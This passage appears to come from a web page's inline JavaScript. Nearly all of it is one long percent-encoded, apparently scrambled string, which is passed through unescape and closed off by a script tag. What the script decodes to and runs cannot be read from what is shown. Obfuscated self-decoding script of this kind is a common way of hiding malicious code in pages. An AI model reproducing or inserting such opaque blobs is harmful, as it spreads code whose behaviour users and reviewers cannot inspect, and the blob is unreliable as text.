8%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%1f%1c%39%74%77%61%18%75%62%6e%65%6c%3e%67%72%66%65%39%24%25%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%34%31%37%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%36%35%38%19%38%29%28%2f%1c%32%2f%2a%2a%2f%23%16%28%35%0a%0e%1f%1c%1d%1f%3e%71%75%66%16%71%63%6e%6a%6a%3a%65%71%61%60%3b%23%2b%75%60%64%6d%21%1c%71%71%65%68%75%67%67%77%64%3a%26%71%6d%71%60%76%61%20%33%3e%31%17%36%28%2f%2c%1d%30%2a%2a%28%2a%28%19%26%3b%0b%09%1c%1d%1f%1a%3e%73%70%6d%19%7f%6d%6f%6d%69%3b%67%74%61%62%3e%28%24%7b%6e%65%6a%22%1d%73%74%65%6a%70%6c%68%79%6a%3b%21%72%6c%73%65%76%63%25%38%3e%3b%19%37%2f%2c%2d%1f%35%2a%28%2d%21%27%17%28%3a%0c%0a%1d%1f%1a%1a%3c%76%7b%62%17%71%6c%68%6e%68%39%62%74%63%67%35%27%2a%75%60%68%61%68%2c%76%6d%65%68%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%30%2f%2a%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%2b%3a%0e%00%19%17%19%18%3b%77%70%64%1a%72%6c%6a%64%6c%31%61%76%64%66%3e%21%27%76%6f%60%63%27%17%75%76%60%6e%70%65%6b%74%6b%3e%28%77%66%75%67%73%67%25%32%2a%30%18%32%26%29%27%19%37%2f%2c%2d%28%24%1a%29%3f%05%0f%17%19%18%1f%38%76%72%61%1a%70%69%61%6b%62%3f%60%71%67%67%3c%24%27%74%6a%6b%6c%29%19%74%71%63%6f%72%60%6b%76%6e%35%27%79%68%74%60%70%66%27%37%35%36%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%1f%1c%39%74%77%61%18%75%62%6e%65%6c%3e%67%72%66%65%39%24%25%71%61%64%62%27%18%73%72%62%6d%77%60%69%73%65%3a%29%77%69%73%63%71%64%22%37%37%35%16%36%27%29%28%1f%33%2d%2f%2a%2d%26%1d%27%3b%04%0f%18%1f%1c%1d%3b%71%77%63%1d%7e%6d%60%6b%6d%39%64%73%64%60%39%26%20%7a%6e%6a%6c%26%1f%70%73%60%68%77%62%6c%78%6a%34%27%76%6e%70%62%73%61%22%35%33%3a%19%38%29%28%2f%1c%32%2f%2a%2a%2f%23%16%28%35%0a%0e%1f%1c%1d%1f%3e%71%75%66%16%71%63%6e%6a%6a%3a%65%71%61%60%3b%23%2b%75%6f%6e%65%6a%2f%71%68%67%6f%26%1d%7a%77%68%6b%75%65%6d%73%6c%39%24%76%6c%7a%66%7b%62%20%32%31%2d%1f%35%2a%28%2d%16%36%27%29%28%28%22%1d%2e%38%09%0e%1d%16%19%17%3d%73%72%67%1d%77%6e%6d%6a%68%30%61%79%62%62%3c%22%20%73%6d%67%6d%23%16%75%79%66%6a%72%66%6c%71%69%39%26%73%67%75%68%75%63%27%31%30%35%1a%35%28%2d%26%19%38%29%28%2f%2b%23%1f%2b%38%0b%0b%16%19%17%19%3c%74%71%66%1f%72%6e%6f%6f%63%3f%6f%77%63%65%3f%23%22%76%6d%65%68%28%19%7b%77%67%6d%71%67%6e%74%69%3b%23%78%68%7b%66%74%64%24%30%33%34%1a%37%2d%26%29%17%36%28%2f%2c%2a%21%1a%2b%3a%0e%00%19%17%19%18%3b%77%70%64%1a%72%6c%6a%64%6c%31%61%76%64%66%3e%21%27%76%6f%60%63%27%17%75%76%60%6e%70%65%6b%74%6b%3e%28%77%66%75%67%73%67%25%32%36%32%18%32%26%29%27%19%37%2f%2c%2d%28%24%1a%29%3f%05%0f%17%19%18%1f%38%76%72%61%1a%70%69%61%6b%62%3f%60%71%67%67%3c%24%27%74%6a%6b%6c%29%19%74%71%63%6f%72%60%6b%76%6e%35%27%79%68%74%60%70%66%27%37%31%34%1d%39%29%27%29%18%30%2c%2d%2f%2d%24%18%2c%34%0a%01%19%18%3b%2d%64%3d%09%0c%0b%0b%16%19%33%69%67%73%64%1d%63%39%24%4b%1d%39%29%27%29%18%36%34%2d%1f%6e%1a%2b%30%26%19%24%30%33%1f%68%1d%2c%37%2a%18%34%3d%19%63%19%37%2f%1c%2e%30%34%2a%18%69%16%36%27%29%18%2f%1c%69%1f%35%2a%18%32%38%29%17%6d%18%2c%31%2d%1f%29%33%33%1d%62%19%24%34%28%1f%35%36%21%1a%77%74%73%67%6c%6c%3a%26%22%66%67%64%31%31%28%23%05%0f%17%19%18%1f%71%71%71%6b%6f%63%2e%7f%6e%6b%75%60%3c%22%30%21%1a%60%6f%69%62%3a%29%24%62%65%67%36%34%2a%24%18%2c%34%0a%01%19%18%3b%61%6a%71%67%6e%63%1d%6b%71%34%27%37%2f%2c%2d%21%1a%67%7f%3e%28%30%27%29%26%1f%72%3e%21%34%2a%26%1d%6c%6e%63%6d%3b%21%62%69%60%67%6f%26%1d%27%3b%04%0f%0b%09%1c%1d%3b%63%1a%6f%61%35%27%7b%62%70%73%22%3f%0c%0c%1a%18%1d%16%3d%7b%62%70%73%1c%75%3c%24%35%28%2d%26%27%17%7e%3b%21%34%36%2f%24%1a%62%6a%62%6d%34%27%25%65%66%66%34%31%2a%26%1d%7b%75%70%6d%63%3c%22%67%6e%68%76%3e%1d%3e%29%67%71%18%6c%6d%6f%6e%77%6a%67%60%6d%3c%17%75%63%77%70%2e%60%68%67%60%6c%78%3f%17%6a%6f%63%60%69%64%3f%24%3a%47%67%68%63%62%70%3b%2d%71%64%72%76%3a%0e%00%19%17%19%18%3b%70%66%77%76%1a%70%3e%28%36%27%29%28%21%1c%7a%3c%24%3d%28%2d%28%19%6d%6e%6c%6b%3f%23%22%60%60%63%36%3d%29%29%19%75%73%7b%69%64%39%24%62%6c%64%75%31%19%34%34%6c%75%1f%69%6b%6a%6c%7b%69%68%64%63%3a%1c%71%64%72%76%2b%62%64%64%6f%68%76%39%1c%6e%68%66%66%6c%66%33%27%35%54%52%46%1c%42%6d%6d%69%67%71%6d%65%33%28%74%64%74%71%3d%09%0c%0b%0b%16%19%17%19%3c%73%67%75%73%1a%72%3b%23%39%29%27%29%26%1f%7b%3e%21%35%35%30%2d%28%19%6d%6e%6c%6b%3f%23%66%74%61%7f%23%16%74%7b%7e%6c%64%3f%23%65%6b%68%74%3b%16%34%27%69%70%1f%71%62%6d%77%29%75%66%78%6e%6d%3c%18%73%67%75%73%29%65%6a%60%6e%68%79%3f%18%6c%6b%61%63%6e%61%3d%23%34%35%39%29%18%2c%1c%37%38%1a%3e%29%71%6d%71%7b%3b%0b%09%1c%1d%1f%1a%3e%74%66%7e%75%17%71%3b%21%33%2d%2f%2a%24%18%7a%35%27%38%37%35%2f%22%1d%65%6d%6e%6c%3e%28%24%6d%63%63%34%37%2d%21%1a%77%74%7a%62%62%34%27%62%6e%6e%71%39%1a%6d%74%62%62%6e%6a%19%33%34%6c%75%1f%77%65%6a%70%25%74%6c%77%6f%65%39%1d%73%61%72%74%2e%69%6b%6a%61%69%71%3a%1d%6c%6d%66%64%69%6d%3c%29%3b%28%2f%35%39%2e%76%61%70%71%34%0a%01%19%18%1f%1c%39%73%61%72%74%1d%7e%3a%29%36%28%2f%2c%23%1f%7d%39%26%32%38%31%27%27%18%65%6b%69%6b%39%24%61%73%6d%7e%29%19%75%73%7b%69%64%39%24%62%6c%64%75%31%19%34%2f%6c%75%1f%77%65%6a%70%25%74%6c%77%6f%65%39%1d%73%61%72%74%2e%69%6b%6a%61%69%71%3a%1d%6c%6d%66%64%69%6d%3c%29%3b%40%40%4e%41%1f%49%45%44%46%32%28%7b%62%70%73%3e%0e%09%09%0c%18%1d%16%19%33%75%63%77%70%1d%77%39%24%37%2d%26%29%29%19%7f%3c%22%32%34%34%33%26%1d%6c%6e%63%6d%3b%21%21%67%65%61%31%33%2d%28%19%7a%75%7f%6b%67%3e%21%60%6b%6a%71%30%19%39%37%68%77%1c%6e%6e%68%6b%75%6d%69%64%6c%3c%18%73%67%75%73%29%65%6a%60%6e%68%79%3f%18%6c%6b%61%63%6e%61%3d%23%34%52%5a%46%3c%2e%70%66%77%76%38%0b%0b%16%19%17%19%3c%73%67%75%73%38%3e%29%71%6d%71%7b%3b%0b%09%1c%1d%3b%2b%63%3a%0e%00%19%17%3d%65%68%72%60%6b%61%1a%6f%61%35%27%6a%62%6a%73%67%73%2c%63%6b%6c%61%25%70%79%66%68%21%1c%67%68%6e%6e%3b%23%2b%63%6d%62%33%34%2c%23%1f%67%72%3b%23%39%29%27%29%26%1f%61%7a%3c%24%35%28%2d%26%27%17%77%3b%21%30%2d%21%38%3e%29%60%61%77%6a%6d%63%3d%0f%0b%1f%1a%3e%61%1d%61%65%34%27%60%60%6e%61%72%24%38%0b%0b%16%19%17%19%3c%66%1c%6a%63%39%24%60%6c%7d%77%24%61%67%6d%60%23%3d%09%0c%18%1d%16%19%17%19%3c%6b%6b%6f%64%1a%72%37%3e%28%36%27%29%28%21%1c%7a%30%39%24%37%2d%26%29%29%19%70%31%3f%23%30%2a%2a%28%23%16%7e%39%3a%26%36%37%2d%21%1a%77%74%73%67%6c%6c%3a%26%22%66%67%64%31%31%28%23%16%74%7b%77%69%6a%67%2e%76%6d%66%74%65%35%27%3a%29%26%1f%6f%62%71%6f%61%76%2e%6d%6b%6b%3a%26%74%72%69%27%27%62%67%6f%6a%2a%6c%6b%64%28%22%1d%2e%38%09%0e%1d%16%19%17%19%18%3b%68%6a%6d%61%1a%70%32%35%27%38%29%28%2f%22%1d%78%35%39%26%32%26%29%27%27%18%77%32%3e%21%35%2a%28%2d%28%19%70%37%3b%21%34%36%2f%24%1a%75%71%78%68%62%62%3b%21%71%6a%6b%70%61%76%23%16%74%7b%77%69%6a%67%2e%76%6d%66%74%65%35%27%38%32%26%1f%2d%3f%0c%0c%1a%18%1d%16%19%17%3d%65%68%72%60%6b%61%1a%65%75%35%27%38%29%28%2f%22%1d%62%7d%39%26%35%26%29%29%19%76%3c%22%37%2f%24%1a%62%6a%62%6d%34%27%25%65%66%66%34%31%2a%26%1d%27%3b%04%0f%18%1f%1c%1d%1f%1a%3e%65%6a%78%64%63%62%18%62%74%3e%21%35%2a%28%2d%28%19%6a%7e%3b%21%34%2d%2f%24%1a%76%3e%28%32%39%27%18%65%6b%69%6b%39%24%71%65%61%75%6c%27%18%2e%3e%0e%09%1a%1a%18%1d%16%19%33%62%6c%6b%6b%6d%72%61%1a%65%75%35%27%38%29%28%2f%22%1d%62%7d%39%26%35%26%29%29%19%76%77%3f%23%33%32%24%18%73%71%3a%29%37%30%21%1c%67%68%6e%6e%3b%23%2b%63%6d%62%33%34%2c%23%1f%2b%38%0b%0b%16%19%17%19%18%1f%38%66%6b%6e%6d%68%70%6d%19%6a%71%3b%21%33%2d%2f%2a%24%18%60%71%3a%29%31%28%2f%22%1d%71%72%39%26%31%26%27%17%77%7f%3c%22%33%2f%24%1a%62%6a%62%6d%34%27%71%67%6b%71%64%24%1a%29%3f%05%0f%17%19%18%1f%1c%1d%3b%61%6e%6c%6a%66%74%6c%19%65%77%3f%23%30%2a%2a%28%23%16%64%70%3a%26%37%2c%2d%21%1a%60%6f%69%62%3a%29%24%62%65%67%36%34%2a%24%18%2c%34%0a%01%19%18%1f%1c%1d%1f%3e%65%6a%6a%65%66%7b%62%54%71%63%6f%72%60%6b%76%6e%16%66%7b%75%76%68%62%76%73%61%56%7f%6d%6d%3a%29%71%6b%6b%22%1d%60%76%76%76%6a%68%72%7b%62%4a%60%6f%66%3c%24%76%76%62%64%74%6d%68%76%6c%22%1d%73%7d%6a%63%3e%28%77%66%75%67%73%67%23%1f%66%71%76%3e%28%35%3a%37%28%2f%71%23%1f%60%74%69%6e%35%27%3a%29%33%1f%33%2d%2f%2a%1a%37%2d%26%29%29%0a%0e%1f%1c%1d%1f%1a%1a%18%1d%7a%68%34%27%32%35%37%1d%30%2a%2a%28%1d%39%29%27%29%26%1f%72%66%6f%61%65%74%40%67%72%65%75%3b%21%6b%6f%63%61%60%6f%6f%61%75%6c%27%18%2e%3e%0e%09%1a%1a%18%1d%32%28%6e%3b%0b%09%1c%1d%1f%1a%3e%61%1d%61%65%34%27%6b%68%6e%76%73%61%29%60%62%64%65%29%3b%0b%09%1c%1d%1f%1a%1a%18%39%62%6e%65%62%18%77%33%3e%21%35%2a%28%2d%28%19%70%36%3b%21%33%2d%2f%2a%24%18%75%38%3a%29%36%28%2f%2c%23%1f%7d%34%3b%23%3d%33%27%27%18%72%70%73%6e%6f%61%3b%23%2b%63%6d%62%33%34%2c%23%1f%77%76%76%6c%63%62%24%70%6f%63%70%65%3c%24%37%28%23%16%6a%68%77%6d%64%72%2e%72%76%65%76%71%35%27%7c%77%6c%27%21%65%60%68%66%2b%66%64%65%20%27%18%6c%63%73%6a%61%74%2b%66%64%65%34%27%73%71%68%25%22%62%65%6a%61%25%62%65%65%2f%21%1c%2c%3d%09%0c%18%1d%16%19%17%19%3c%6b%6b%6f%64%1a%72%37%3e%28%36%27%29%28%21%1c%7a%30%39%24%3f%30%26%27%17%71%36%3c%22%32%2f%2a%2a%26%1d%71%37%34%27%33%36%2c%23%1f%77%76%76%6c%63%62%34%27%75%68%68%77%64%74%24%18%70%7a%77%66%6c%63%2c%75%6a%63%76%62%3b%23%39%32%29%19%29%3d%0f%0b%1f%1a%1a%18%1d%16%3d%68%6b%6f%6c%63%71%64%56%74%67%6f%7b%63%66%77%6b%1f%63%71%73%74%6d%66%76%7a%62%5b%7e%68%64%3f%23%77%69%6e%26%1d%69%75%7b%77%6f%61%77%71%64%48%65%6b%66%35%27%7b%77%67%6d%71%67%6e%74%69%26%1d%7a%7e%67%62%3b%21%72%6c%73%65%76%63%23%16%65%7c%77%3b%21%31%37%2f%2a%77%26%1d%6c%77%66%6a%3b%21%36%30%1f%35%2a%28%2d%16%36%27%29%28%21%0f%0b%1f%1a%1a%18%1d%16%19%17%75%69%3c%22%31%31%37%1a%37%2d%26%29%17%36%28%2f%2c%23%1f%74%61%68%66%69%75%4a%68%73%6d%70%3e%21%6d%68%64%66%6c%6e%65%6e%74%64%22%1d%2e%38%09%0e%1d%16%19%17%3d%29%66%3e%0e%09%1a%1a%18%1d%32%60%17%6e%64%3c%22%70%64%67%6b%6a%61%25%61%68%6b%64%21%3e%0e%09%1a%1a%18%1d%16%19%33%6d%6f%6d%67%1d%77%35%39%26%32%26%29%27%27%18%78%33%3e%21%35%2a%28%2d%28%19%7f%37%3b%21%33%2d%2f%2a%24%18%7a%38%3a%29%35%3f%2f%22%1d%72%76%74%69%68%6d%3a%29%24%63%64%67%66%64%61%24%18%70%7a%77%66%6c%63%2c%75%6a%63%76%62%3b%23%3d%27%17%28%3a%0c%0a%1d%1f%1a%1a%18%1d%32%6d%60%6b%63%1f%74%32%3c%24%35%28%2d%26%27%17%7e%37%3c%22%32%31%2a%2a%26%1d%7e%37%34%27%37%2f%2c%2d%21%1a%7d%36%3e%28%36%27%29%28%21%1c%70%73%74%6b%6d%66%35%27%2a%62%63%64%67%66%64%24%1a%75%71%78%68%62%62%2b%76%6b%61%73%62%39%26%36%28%19%26%3b%0b%09%1c%1d%1f%1a%1a%18%39%6b%6e%79%64%6c%64%1c%60%77%39%24%37%2d%26%29%29%19%65%78%3f%23%36%2a%2a%26%1d%78%3a%29%34%33%21%1c%67%68%6e%6e%3b%23%2b%62%6c%62%63%64%67%23%1f%2b%38%0b%0b%16%19%17%19%18%1f%38%60%68%74%67%6c%66%16%64%7f%3a%26%30%2c%2d%2f%24%1a%65%7a%35%27%3e%29%28%21%1c%73%3c%24%34%31%23%16%63%60%6d%6c%3c%22%74%67%6d%76%63%23%16%28%35%0a%0e%1f%1c%1d%1f%1a%1a%3c%60%61%77%6a%6d%63%1f%61%75%3c%24%35%28%2d%26%27%17%64%7f%3c%22%32%31%2a%2a%26%1d%78%3a%29%37%28%21%1c%67%68%6e%6e%3b%23%2b%62%6c%62%63%64%67%23%1f%2b%38%0b%0b%16%19%17%19%18%1f%38%60%68%74%67%6c%66%16%64%7f%3a%26%30%2c%2d%2f%24%1a%65%7a%35%27%38%37%28%2f%22%1d%71%39%24%37%33%28%19%6d%6e%6c%6b%3f%23%63%6d%69%61%73%69%7e%29%19%29%3d%0f%0b%1f%1a%1a%18%1d%16%3d%68%6b%6f%6c%63%71%64%56%74%67%6f%7b%63%66%77%6b%1f%63%71%73%74%6d%66%76%7a%62%5b%7e%68%64%3f%23%77%69%6e%26%1d%69%75%7b%77%6f%61%77%71%64%48%65%6b%66%35%27%7b%77%67%6d%71%67%6e%74%69%26%1d%7a%7e%67%62%3b%21%72%6c%73%65%76%63%23%16%65%7c%77%3b%21%36%2d%72%24%1a%62%73%67%6a%34%27%37%37%36%1d%30%2a%2a%28%1d%39%29%27%29%26%0c%0a%1d%1f%1a%1a%18%1d%16%19%7b%68%3b%21%37%31%35%1a%35%28%2d%26%19%38%29%28%2f%22%1d%71%61%6a%63%62%7a%44%66%72%6a%73%3f%23%68%68%66%63%67%61%6b%60%75%63%21%1c%2c%3d%09%0c%18%1d%16%19%33%28%61%3d%0f%0b%1f%1a%3e%29%64%34%0a%01%19%18%3b%65%3f%0c%0c%1a%18%1d%16%3d%6a%6e%76%62%68%66%1f%67%72%3b%23%39%29%27%29%26%1f%61%7a%3c%24%35%28%2d%26%27%17%77%3b%21%37%37%21%1a%60%6f%69%62%3a%29%24%62%65%67%36%34%2a%24%18%2c%34%0a%01%19%18%1f%1c%39%62%6d%74%65%69%6d%19%60%65%3b%21%61%66%6d%76%61%76%23%16%74%7b%7e%6c%64%3f%23%65%6d%6e%6c%3b%16%65%60%6a%61%71%63%7a%3a%1a%77%74%73%67%6c%6c%3f%18%22%67%66%64%61%61%63%38%16%74%7b%77%69%6a%67%2e%76%6d%66%74%65%30%19%3a%33%68%77%22%1d%62%72%39%26%32%26%29%27%27%18%62%7b%3e%21%35%2a%28%2d%28%19%79%3a%26%32%2c%23%1f%2b%38%0b%0b%16%19%33%28%61%3d%0f%0b%3b%2b%77%72%64%3411135629%35%37%32%39%36%38%36' + unescape('%27%29%29%3b'));
// -->
</script>
